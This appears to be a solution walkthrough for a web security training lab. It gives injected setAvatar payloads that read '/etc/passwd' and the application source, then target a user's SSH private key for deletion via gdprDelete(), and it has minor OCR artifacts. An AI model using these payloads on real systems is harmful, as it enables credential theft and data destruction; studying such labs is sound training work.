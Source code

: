 ```bash

POST /my-account/change-blog-post-author-display HTTP/1.

Change:

blog-post-author-display=user.setAvatar('/etc/passwd', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

To

blog-post-author-display=user.setAvatar('/home/carlos/User.php', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

Refresh the page
No error
Go to: Repeater
Find:

GET /avatar?avatar=wiener HTTP/1.1

Send
Response:

    public function gdprDelete() [
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    ]

Point user.setAvatar to the '/home/carlos/.ssh/id_rsa' file then call gdprDelete() function

Go to: Repeater
Find:

POST /my-account/change-blog-post-author-display HTTP/1.

Change:

blog-post-author-display=user.setAvatar('/home/carlos/User.php', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

To

blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

Go to: Repeater
Find:

GET /avatar?avatar=wiener HTTP/1.1

Send
**Refresh the page**
No error
Go to: Repeater
Find:

POST /my-account/change-blog-post-author-display HTTP/1.

Change:

blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm
```